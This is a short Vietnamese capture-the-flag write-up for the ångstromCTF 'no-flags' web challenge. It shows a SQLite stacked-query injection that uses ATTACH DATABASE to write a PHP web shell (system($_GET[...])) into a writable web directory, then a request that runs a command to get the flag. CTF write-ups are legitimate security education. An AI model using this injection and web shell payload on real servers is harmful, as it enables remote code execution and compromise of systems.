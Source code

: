 Tra ở cheatsheet thì thấy có payload: [Giải thích](https://twosixtech.com/sqlite-as-a-shell-script/#background)
```
1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘’;-- --requires either direct database access or (non-default) stacked query option enabled
```

Quay lại Dockerfile thì thấy có directory: `/var/www/html/abyss` là có thể ghi được.
```Docker
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss
```

Mình sẽ craft lại payload cho phù hợp:
```
');ATTACH DATABASE '/var/www/html/abyss/LMAP.php' AS LMAP; CREATE TABLE LMAP.hh (dataz text); INSERT INTO LMAP.hh (dataz) VALUES('<?php system($_GET[288]); ?>');--
```

Sau đó GET tới `https://no-flags.web.actf.co/abyss/LMAP.php?288=/printflag` là lấy được flag.

Flag:
```
actf{why_do_people_still_use_php} 
```

## Nhận xét:
Mình vẫn chưa làm được bài khó :v